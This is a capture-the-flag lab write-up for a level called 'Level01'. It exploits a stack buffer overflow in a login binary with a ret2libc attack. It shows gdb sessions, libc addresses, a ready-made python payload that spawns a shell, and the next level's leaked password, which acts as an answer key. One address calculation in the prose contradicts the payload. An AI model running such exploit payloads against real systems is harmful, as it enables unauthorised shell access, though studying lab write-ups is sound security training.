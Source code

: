 # Level01

## Setup

We find a binary file at the root of the user **`level01`** named *`./level01`*.

And we copy the file with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4242 level01@<vm_ip>:/home/users/level01/level01 .
```

### Hex-Rays

From now on, we will mainly use an online decompiler explorer.
It will allow us to get an approximate c version of the program with less effort.

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Binary

We first tried to run the binary.
It asks for an admin login.
After trying a few random inputs, we only get an output stating "nope, incorrect username...", and it returns.

Time to disassemble!

### Source

Here we get to use godbolt to investigate.

![godbolt level01](image.png)

From this code we can see two things:
- the admin login should be "dat_wil"
- whatever the password, we get "nope, incorrect password ...\n"

But, the developper reads a 100 characters in a 64 char long space on the stack.
A buffer overflow is possible.

### Overflow

After writing "dat_wil" as login, we try sending a very long string for the password.
We get a segmentation fault.
Say no more, we send a pattern.

```bash
gdb level01
> b main
> r < <(python -c "print 'dat_wil\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'")
<<< Program received signal SIGSEGV, Segmentation fault.
0x41306141 in ?? ()
```

And `0x41306141` is the part of the pattern at an offset of 80.
We'll try to use a ret2libc technique.

We need:
- an address pointing to a string "/bin/sh" ***0xf7fcc000 + 15d7ec***
```bash
	> b main
	> r
	> info proc map
<<< Start Addr   End Addr       Size     Offset objfile
<<< ...
<<< 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
<<< ...
	> strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
<<< 15d7ec /bin/sh
```
- the address of `system`
```bash
	> p system
<<< $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- the address of `exit`
```bash
	> p exit
<<< $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

We got everything.

When the segmentation fault happened, it was at the offset 80.
It means that 80 bytes after the start of the overflowed buffer, is stored the return address of the function `main()`.
If we change this address to `system()`, instead of continuing the execution of the code which called `main()`, we'll read the instructions of `system()`.
Therefore, if we set the parameter of `system()` to "/bin/sh", the program will open a shell as user=level02.

The pointer to `exit()` is here so `system()` returns to a proper exit of the program.

### Solution

Connect with `ssh -p 4242 level01@<vm_ip>`
Enter the password `level01`

```bash
python -c "print 'dat_wil\n' + 'A'*80 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload01
cat /tmp/payload01 - | ./level01
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
